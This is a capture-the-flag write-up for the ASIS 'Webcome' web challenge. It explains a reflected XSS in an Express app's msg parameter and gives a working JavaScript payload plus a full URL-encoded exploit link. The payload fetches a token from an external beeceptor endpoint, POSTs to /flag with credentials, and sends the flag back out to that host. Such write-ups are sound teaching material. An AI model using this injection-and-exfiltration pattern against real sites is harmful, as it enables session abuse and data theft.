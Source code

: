 # Webcome


## Description
Welcome! I made a [website](http://65.21.255.24:5000/).

Download the source code from [here](https://asisctf.com/tasks/welcome_697082013f8f7b6f0ed025f77272fc65082eb3dc.txz).

## Writeup

In this challenge, the goal is to visit `/flag` route with a
secret cookie after solving a captcha. The website also has a `/report` path, which you can make the server visit a website in the backend. Analyzing the code, we encountered some interesting parts in the homepage code:

```javascript
app.get('/',(req,res)=>{
	var msg = req.query.msg
	if(!msg) msg = `Yo you want the flag? solve the captcha and click submit.\\nbtw you can't have the flag if you don't have the secret cookie!`
	msg = msg.toString().toLowerCase().replace(/\'/g,'\\\'').replace('/script','\\/script')
	res.send(indexHtml.replace('$MSG$',msg))
})
```
In case a query parameter exists, after some naive sanitization, it is replaced in place of `$MSG$` in the `index.html` file:
```html
<script>
    msg.innerText = '$MSG$';
</script>
```
So our initial guess is to perform some XSS attack.


### Failed Attempts
1. First, we tried to somehow gain access to the secret cookie, which is set with the following code:
```javascript
await page.setCookie({
		name: 'secret_token',
		value: secretToken,
		domain: challDomain,
		httpOnly: true,
		secret: false,
		sameSite: 'Lax'
	})
```
But the security niceties are well observed, and it seems like it is not possible to get the cookie maliciously.

Especially, `httpOnly` prevents JavaScript from accessing this token, and hence, we cannot use simple `document.cookie` XSS.

1. We encountered this line in the code:
```javascript
app.use(bodyParser.urlencoded({ extended: true }));
```
That simply allows the user to pass advanced formatted queries, which may help bypass some security measurements if not applied cautiously. But we could not get much use of it. (We were thinking of ways to somehow bypass `msg` query sanitizations, or even manipulate the captcha verification process by crafting a special value for `g-recaptcha-response`, which gets passed to the `/flag` path is used to authenticate the solved captcha).

### Solution
We first tried to reconstruct the captcha on our end by getting its required parameters from the backend server. After some investigation, it turned out to be too complex, so we dumped the idea.

#### Bypassing ReCaptcha
We first tried to reconstruct the captcha on our end by getting its required parameters from the backend server. After some investigation it turned out to be too advanced so we dumped the idea.

Our final workaround was to solve a captcha on our end and capture its `g-recaptcha-response` before reaching the server and send it to our script, hoping it would work, which it turned out to do :))

The script that we used was the following:
```javascript
headers = {method: "GET"};
let data = "g-recaptcha-response=";
fetch(url = `https://larmol.free.beeceptor.com/`, headers = headers).then(async response => {
    let t = await response.text();
    data = data.concat(t);
    headers = {
        method: "POST",
        body: data,
        headers: {"Content-Type": "application/x-www-form-urlencoded"},
        credentials: "include"
    };
    fetch(url = `http://65.21.255.24:5000/flag`, headers).then(async response => {
        headers = {method: "GET"};
        let t = await response.text();
        fetch(url = `https://larmol.free.beeceptor.com/${t}`, headers)
    });
});
```
This script does the following steps:

1. Gets the `g-recaptcha-response` from an endpoint that we created, providing it with our solved captcha.
2. Creates a request containing the `g-recaptcha-response` parameter and sends it to the `/flag` route, obtaining the flag.
3. Sends the flag to our endpoint in the URL (we could have sent it way better, but we were too tired ^__^)

We needed to encode our script in the URL. Our final crafted URL was this:
```
http://65.21.255.24:5000/?msg=%5C';headers=%7Bmethod:%22GET%22%7D;let%20data%20=%20%22g-recaptcha-response=%22;fetch(url=%60https://larmol.free.beeceptor.com/%60,%20headers=headers).then(async%20response%20=%3E%20%7Blet%20t=await%20response.text();data%20=%20data.concat(t);headers%20=%20%7Bmethod:%22POST%22,body:%20data,headers:%20%7B%22Content-Type%22:%20%22application/x-www-form-urlencoded%22%7D,credentials:%20%22include%22%7D;fetch(url=%60http://65.21.255.24:5000/flag%60,%20headers).then(async%20response%20=%3E%20%7Bheaders=%7Bmethod:%22GET%22%7D;let%20t%20=%20await%20response.text();fetch(url=%60https://larmol.free.beeceptor.com/$%7Bt%7D%60,%20headers)%7D);%7D);//
```

We had to add `\\';` and `//` to the beginning and end of our query, respectively, to escape from the naive filtering mentioned and get our script out of the `'$MSG$'` quotes to get it running.

Submitting the URL, we get the flag on our endpoint:
```
ASIS{welcomeeeeee-to-asisctf-and-merry-christmas}
```
